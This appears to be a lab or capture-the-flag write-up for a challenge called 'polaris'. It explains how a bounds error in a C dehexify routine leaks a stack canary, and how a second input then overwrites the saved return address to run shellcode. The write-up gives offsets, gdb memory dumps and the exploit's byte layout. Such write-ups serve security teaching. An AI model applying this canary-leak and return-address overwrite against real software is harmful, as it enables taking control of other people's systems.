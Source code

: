 # 03 - polaris  Writeup

## Main Idea

top of stack

0xffffd68c  RIP
compiler  pad
0xffffd66c  c.buffer
0xffffd65c  c.answer

stack pointer

The branch in line 25 `if (c.buffer[i] == '\\' && c.buffer[i+1] == 'x')` is vulnerable.
The BUFLEN = 16, when the buffer[12] == '\' and  buffer[13] == 'x', `i` will jump into 16, which is out of the buffer.
And the value in stack will be written into c.answer, and We can get it.

The canary will be the same when the program is running.
We can get the canary from the first stdin and stdout.
And use the canary and overwrite the RIP in the second try.

## Magic Numbers

The address of buffer is `0xffffd66c`, the RIP is `0xffffd68c`, so the location of RIP is 32 bytes away from the start of the buffer.

``` C++
(gdb) x/16x c.buffer
0xffffd66c:     0x04d0203a      0x41410008      0x41414141      0x0800785c
0xffffd67c:     0x3ae2fc37      0x0804d020      0x00000000      0xffffd698
0xffffd68c:     0x08049341      0x00000000      0xffffd6b0      0xffffd72c
0xffffd69c:     0x0804952a      0x00000001      0x08049329      0x0804cfe8
(gdb) i f
Stack level 0, frame at 0xffffd690:
 eip = 0x804922e in dehexify (dehexify.c:22); saved eip = 0x8049341
 called by frame at 0xffffd6b0
 source language c.
 Arglist at 0xffffd688, args:
 Locals at 0xffffd688, Previous frame's sp is 0xffffd690
 Saved registers:
  ebp at 0xffffd688, eip at 0xffffd68c
```

## Exploit Structure

We can run this program many times to determine the position of stack canary in 0xffffd67c. 
Here is the stack diagram.

The exploit has two tries:

The first try:

1. Write 12 dummy characters to overwrite `buf`
2. Write "\\x\n", the program will jumpy into the canary.
3. Receive the answer, and canary will be in answer[13:17],  [0:12] means pad, [12] means \\x dehexify, [13:17] means canary, and save canary in python string.

The second try:

1. write 16 dummy characters to buffer
2. write canary
3. write 12 pad, and the RIP will sit in the next byte.
4. overwrite the RIP with magic-code, "\x90\xd6\dff\xff", which is the RIP address('0xffffd68c') + 4 
5. write SHELLCODE.

## Exploit GDB Output

When we ran GDB after inputting the malicious exploit string, we got the following output:

```C++
(gdb) x/16x c.buffer
0xffffd66c:     0x41414141      0x41414141      0x41414141      0x00414141
0xffffd67c:     0x3ae2fc37      0x42424242      0x42424242      0x42424242
0xffffd68c:     0xffffd690      0xdb31c031      0xd231c931      0xb05b32eb
0xffffd69c:     0xcdc93105      0xebc68980      0x3101b006      0x8980cddb
```

